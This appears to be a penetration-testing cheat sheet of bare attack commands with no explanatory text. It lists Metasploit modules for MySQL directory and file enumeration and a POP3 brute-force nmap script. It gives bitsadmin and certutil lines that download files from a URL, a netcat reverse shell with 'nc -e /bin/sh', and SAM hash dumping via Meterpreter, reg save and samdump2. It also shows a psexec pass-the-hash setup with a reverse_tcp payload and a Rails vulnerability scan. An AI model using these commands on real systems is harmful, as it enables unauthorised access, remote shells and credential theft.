 
MYSQL writable dirs
	use auxiliary/scanner/mysql/mysql_writable_dirs
	set rhosts 192.168.1.108
	set username root
	set password 123
	set dir_list /root/dir.txt
	exploit

MYSQL enumerate files
	use auxiliary/scanner/mysql/mysql_file_enum
	set rhosts 192.168.1.108
	set username root
	set password 123
	set file_list /root/dir.txt
	exploit

https://hack2rule.wordpress.com/2017/02/25/sql-injection-to-meterpreter/
https://www.hackingarticles.in/penetration-testing-on-mysql-port-3306/
https://www.yeahhub.com/mysql-pentesting-metasploit-framework/

               
POP3

	nmap -sV --script=pop3-brute <target>

 
DOWNLOAD
	bitsadmin /transfer myDownloadJob /download /priority normal URL FULLPATH
	certutil.exe -urlcache -split -f "URL" FILENAME

NETCAT
	nc -nvlp PORT
	nc -e  /bin/sh LOCAL PORT

SHELL
	Meterpreter> run post/windows/gather/hashdump

	reg save hklm\sam sam
	reg save hklm\system system
	$ samdump2 system sam


SAMBA execute
use exploit/windows/smb/psexec
set payload windows/meterpreter/reverse_tcp
set SHARE C$
set SMBUSER vagrant
set SMBPASS aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b

METASPLOIT modules

	RUBY on Rails
		use auxiliary/scanner/http/rails_xml_yaml_scanner
		set RHOSTS 192.168.0.0/24
		set RPORT 80
		set THREADS 128
		run
		